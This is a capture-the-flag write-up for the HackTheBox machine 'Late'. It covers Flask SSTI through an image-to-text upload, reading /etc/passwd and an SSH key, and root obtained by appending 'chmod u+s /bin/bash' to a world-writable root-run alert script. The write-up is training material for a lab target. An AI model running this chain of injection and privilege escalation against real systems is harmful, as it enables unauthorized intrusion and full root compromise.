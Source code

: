```yaml
---
layout: post
title: "HTB: Late"
author: Andrew Cherney
date: 2023-01-12 20:48:24
tags: htb easy-box webapp ssti flask bash linux
icon: "/assets/icons/late.png"
post_description: "Late was a box with practically two parts. The first was to identify the image upload function on the http site was vulnerable to SSTI and crafting an image to serve as the payload. The second was to find an SSH login alert bash script that was run as root and writable by everyone."
---
```


<h1>Summary</h1>

Late is an easy difficulty box with practically two parts. The first was to identify the image upload function on the http site was vulnerable to SSTI and crafting an image to serve as the payload. The second was to find an SSH login alert bash script that was run as root and writable by everyone. 

<h1>Enumeration</h1>

This box I decided to try <code>rustscan</code> to scan for open ports and services. It's effectively a wrapper around <code>nmap</code> which allows for additional functionality and faster scanning, but in my case I use it for the latter of those reasons. 

<h2>rustscan</h2>

```bash
rustscan 10.10.11.156 | tee results.scan
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSqIcUZeMzG+QAl/4uYzsU98davIPkVzDmzTPOmMONUsYleBjGVwAyLHsZHhgsJqM9lmxXkb8hT4ZTTa1azg4JsLwX1xKa8m+RnXwJ1DibEMNAO0vzaEBMsOOhFRwm5IcoDR0gOONsYYfz18pafMpaocitjw8mURa+YeY21EpF6cKSOCjkVWa6yB+GT8mOcTZOZStRXYosrOqz5w7hG+20RY8OYwBXJ2Ags6HJz3sqsyT80FMoHeGAUmu+LUJnyrW5foozKgxXhyOPszMvqosbrcrsG3ic3yhjSYKWCJO/Oxc76WUdUAlcGxbtD9U5jL+LY2ZCOPva1+/kznK8FhQN
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBMen7Mjv8J63UQbISZ3Yju+a8dgXFwVLgKeTxgRc7W+k33OZaOqWBctKs8hIbaOehzMRsU7ugP6zIvYb25Kylw=
|   256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIGrWbMoMH87K09rDrkUvPUJ/ZpNAwHiUB66a/FKHWrj
80/tcp open  http    syn-ack ttl 62 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 1575FDF0E164C3DB0739CF05D9315BDF
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
```

<h2>Port 80 - Nginx</h2>

![late.htb](/img/late/late_htb_site.png)

![late.htb FAQ](/img/late/late_htb_FAQ.png)

Taking a look around we can quickly find in the FAQ a link to the online photo editor. That specific link directs to <code>images.late.htb</code>. Now I can add the domain and subdomain to my <code>/etc/hosts</code> file:

```
10.10.11.156 late.htb images.late.htb
```

![images.late.htb](/img/late/late_htb_images.png)

After adding that subdomain to my hosts file, we are presented with a page to turn an uploaded image into text. There is one major indicator of our next step and it lies within the header at the top: Flask. 

<h1>Foothold</h1>

Before we get ahead of ourselves we could test this pages functionality. I throw a cat picture at the text converter as a sanity check:

![cat upload test](/img/late/late_htb_test_upload.png)

That is exactly as expected, now let's create a simple image with text to determine if this is vulnerable to SSTI and if it properly handles regular text. 

![SSTI test payload](/img/late/late_htb_test_payload.png)

![SSTI test response](/img/late/late_htb_test_payload_response.png)

Great, my suspicions were confirmed and now we can move onto the next part. 

<h2>Flask and SSTI</h2>

Now in short, Flask is a python based web framework which is notoriously vulnerable to one type of attack: Server Side Template Injection. The framework integrates the use of templates, which allow for importing data from various pages and parts of a site. For example this site itself uses layout pages that contain \{\{ content \}\} to import the referencing page's information. Another functionality of those templates is the ability to run code and commands with the language natively used within the framework. 

For the test payload I used \{\{7*7\}\} which if the application is SSTI vulnerable will calculate the result, which is the 49 we received in the response. 

There is one slight problem however when it comes to SSTI on Flask, and that is navigating python objects and inheritance trees. In order to run commands or code through templates we need to crawl through the Python environment to find classes useful to us. In some cases it can be as simple as throwing a pre-generated cheatsheet payload template at Flask, and in others is can look something like \{\{‘’.\_\_class\_\_.\_\_mro\_\_[1].\_\_subclasses\_\_()[284:]\}\} and the only way to find out is by enumerating the classes used in the application. 

Get it? Good, because all of that paragraph above is worthless since the [cheatsheet templates below](https://github.com/Jieyab89/Jinja2-python-or-flask-SSTI-vulnerability-payload-) I tested against it worked ... 

![SSTI /etc/passwd read](/img/late/carbon_(61).png)
![SSTI ssh key read](/img/late/ssh_payload.png)

When you give the upload an SSTI payload it returns the results of the payload. In the second payload's case that would be the ssh key for the account running the site. A soft blessing ends up working in my favor, as the test payload to read <code>/etc/passwd</code> shows me the potential names for accounts to ssh into, the winner of those being svc_acc.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Late]
└──╼ $ssh svc_acc@10.10.11.156 -i id_rsa
svc_acc@late:~$ id
uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
```

<h1>Root</h1>

Since this is an easy box it's safe to assume linpeas will likely churn out my next step, and would you look at that a bash script in <code>/usr/local/sbin</code>

![linpeas scan](/img/late/late_htb_linpeas.png)

```
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

The script is sending an email to the presumptive root email for every SSH login. Now I have two options, I can scour the machine to determine who is running this script, or I can append <code>whoami</code> to the script and log back in.

```bash
svc_acc@late:~$ echo 'whoami | tee /tmp/user' >> /usr/local/sbin/ssh-alert.sh
svc_acc@late:~$ exit
logout
Connection to 10.10.11.156 closed.
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Late]
└──╼ $ssh svc_acc@10.10.11.156 -i id_rsa 
svc_acc@late:~$ cat /tmp/user
root
```

Well if root is running this script our priv esc is as simple as modifying bin bash to be an SUID, making it run as the owner root. 

```bash
svc_acc@late:~$ echo 'chmod u+s /bin/bash' >> /usr/local/sbin/ssh-alert.sh 
svc_acc@late:~$ exit
logout
Connection to 10.10.11.156 closed.
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Late]
└──╼ $ssh svc_acc@10.10.11.156 -i id_rsa 
-bash-4.4$ bash -p
bash-4.4# whoami
root
```

And with that I can read the root.txt flag in the root directory and pwn the box.
